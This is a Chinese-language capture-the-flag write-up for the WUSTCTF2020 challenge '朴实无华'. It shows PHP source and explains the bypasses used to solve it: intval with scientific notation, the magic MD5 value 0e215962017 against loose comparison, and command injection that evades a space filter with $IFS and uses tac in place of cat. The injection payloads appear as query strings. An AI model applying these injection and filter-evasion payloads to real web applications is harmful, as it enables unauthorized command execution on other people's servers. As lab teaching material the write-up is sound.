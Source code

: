# [WUSTCTF2020]朴实无华 md5特殊值/intval绕过/过滤空格

<img src="https://i-blog.csdnimg.cn/blog_migrate/6e8f597f5bb18fde93990435510f365f.png" alt="" style="max-height:187px; box-sizing:content-box;" />


dirsearch扫吧



<img src="https://i-blog.csdnimg.cn/blog_migrate/c984bd5ad425936a6b39ac8c8c83e228.png" alt="" style="max-height:113px; box-sizing:content-box;" />


然后就可以得到 robots.txt了 记得降低点线程

-t 50 这样

我们去访问一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/9424142199bf67354e92552373deafbc.png" alt="" style="max-height:100px; box-sizing:content-box;" />


去看看 但是这个文件名一看就是fake的



<img src="https://i-blog.csdnimg.cn/blog_migrate/46f24b438f658639f981e9fcf061b169.png" alt="" style="max-height:115px; box-sizing:content-box;" />


抓抓包看看有没有传递什么吧

这里不是很顺的 其实前面耶抓包看看了 但是没有东西就不放上来了



<img src="https://i-blog.csdnimg.cn/blog_migrate/76c026c8141f85e655dd61ffde920d61.png" alt="" style="max-height:304px; box-sizing:content-box;" />


访问一下咯



<img src="https://i-blog.csdnimg.cn/blog_migrate/2553137933e79547c408a4da50581486.png" alt="" style="max-height:876px; box-sizing:content-box;" />


乱码 火狐 ALT -> 查看 -> 修复文字编码 即可

## intval 科学计数法绕过

```cobol
//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
} 
```

第一个 是关于 intval的漏洞

```cobol
intval(num,进制)
 
这里主要 可以通过进制的方式绕过 因为默认是10进制
 
这里主要是通过 科学计数法绕过
 
 
1e10 会被识别为1
 
但是 1e10+1后就会恢复原本
```

```php
<?php
$a='1e10';
echo intval($a);
echo "<br />";
echo intval($a+1);
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/239ee3985f3fb4186630299233906912.png" alt="" style="max-height:126px; box-sizing:content-box;" />


所以我们传入 ?num=1e10

## md5特殊

```cobol
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
} 
```

这里主要是特殊的MD5 加密后是和原本值一样 我们去搜一下就行了 `0e215962017` 

## 过滤空格和替换cat

cat可以使用tac

空格可以使用$IFS

我们先看看我们要读取什么文件

```cobol
?num=1e10&md5=0e215962017&get_flag=ls
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/c0460a7f3dd54057d3adbd22a2fcad62.png" alt="" style="max-height:56px; box-sizing:content-box;" />


多半就是猎奇的flag了

```cobol
?num=1e10&md5=0e215962017&get_flag=tac$IFS'fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag'
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/5aba331ed75af462f6ac019b01e0e58c.png" alt="" style="max-height:106px; box-sizing:content-box;" />